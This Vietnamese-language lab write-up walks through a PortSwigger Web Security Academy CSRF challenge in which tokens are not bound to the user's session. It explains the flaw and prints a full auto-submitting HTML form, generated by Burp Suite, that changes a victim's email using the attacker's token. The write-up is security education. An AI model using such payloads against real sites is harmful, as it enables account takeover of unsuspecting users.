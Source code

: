 ![image](https://github.com/user-attachments/assets/f711f2ea-1328-4e64-a85e-5552148e7b28)

Đọc mô tả challenge thì ta có thể thấy được rằng challenge này nó liên quan đến việc mà hệ thống xử lí csrf token không đúng cách dẫn đến attacker có thể đổi email của user.

Cụ thể là hệ thống nó check csrf token tuy đúng nhưng chưa đủ, tức là nó sẽ check xem token này đã được dùng hay chưa, nếu chưa dùng thì nó sẽ được thực hiện mà ko check xem token này có thuộc về user A hay là 1 user nào đó khác dẫn đến attacker có thể dùng token của attacker để khai thác.

Tiến hành kiểm chứng.

![image](https://github.com/user-attachments/assets/0e622a80-7b37-4d3c-926c-b5eb586602f8)

Bắt request của user và ta thấy được nó đi kèm 1 csrf token của user.

![image](https://github.com/user-attachments/assets/79a06fbc-ffb8-495c-b0ed-71f85688dfa3)

Ta tiến hành đăng nhập vào acc attacker và vào kiếm csrf token của attacker, sau khi đã có csrf token của attacker thì ta tiến hành thay thế csrf token của attacker vào user.

![image](https://github.com/user-attachments/assets/a08b5af1-885d-4ded-aeff-bf0424ee96b7)

Sau khi đã thế vào thì ta tiến hành tạo payload và gửi cho con bot nó click vào thôi. Bạn có thể tham khảo payload mà tôi viết ở các challenge trước, nhưng challenge này tôi lười nên là dùng đồ của `burp pro` luon =)).

![image](https://github.com/user-attachments/assets/0f58bb63-3c85-463a-9dba-c43f3b9a4d54)

Bạn có thể làm như này để nó gen ra poc csrf :")), quá ngon luôn.

![image](https://github.com/user-attachments/assets/df2bf6ba-12f0-4459-a423-e508e09e1bb7)

và ta đã được 1 quả poc xịn đét v:

Payload:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac10021030fd8568050b23e00e30025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="mAp9DiSUqL6JBdfu5nIt5QhwrbXI4dXj" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

tiến hành gửi cho con bot và solve challenge này thôi.

![image](https://github.com/user-attachments/assets/d21eda92-005b-40c7-9295-24b5df85cb46)

Thành công rồi nhé :">
